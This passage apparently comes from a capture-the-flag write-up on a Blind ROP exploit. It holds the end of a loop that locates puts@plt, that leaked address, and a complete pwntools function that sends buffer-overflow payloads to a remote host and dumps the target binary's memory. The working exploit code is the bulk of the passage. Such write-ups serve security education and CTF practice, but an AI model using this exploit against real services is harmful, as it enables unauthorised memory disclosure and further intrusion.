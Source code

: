 ```python
                raise EOFError
        except EOFError as e:
            #print('Bad address: %x' % addr)
            addr += 0x10 # Since every entry is 0x10 bytes apart so adding 0x10 here
            io.close()
        except KeyboardInterrupt:
            sys.exit(-1)
        except Exception as e:
            print(e)
```
```text
Puts@plt address:- 0x400560
```
### Dump memory
Now we have mostly everything to dump the memory so let's do it
```python
def dump_memory(buf_size, stop_gadget, brop_Gadget, puts_plt, start_addr=0x400000, end_addr=0x400800):
    context.log_level = 'error'
    pop_rdi_ret = brop_Gadget + 9

    result = b''
    while start_addr < end_addr:
        sleep(1)
        payload = b'a' * buf_size
        payload += p64(pop_rdi_ret)
        payload += p64(start_addr)
        payload += p64(puts_plt)

        try:
            r = remote(HOST, PORT)
            r.recvline()
            r.sendline(payload)
            resp = r.recv(timeout=1)

            if resp == b'\n':
                resp = b'\x00'
            elif resp[-1] == 0xa:
                resp = resp[:-1]
            elif resp == b'':
                resp = b'\x00'

            print('Leaking: 0x%x' % start_addr)
            result += resp
            start_addr += len(resp)
            r.close()
        except Exception as e:
            print(e)
            log.info("connect error")

    return result
```
Puts function is truncated by \x00 and add '\n' at the end of each line so we just remove 0xa or '\n'
and if nothing comes which is quite possible(and happened a lot) we just put \x00 byte there
Just dump the whole file in blind.dump like we did in [Final Exploit](#Final_Exploit)
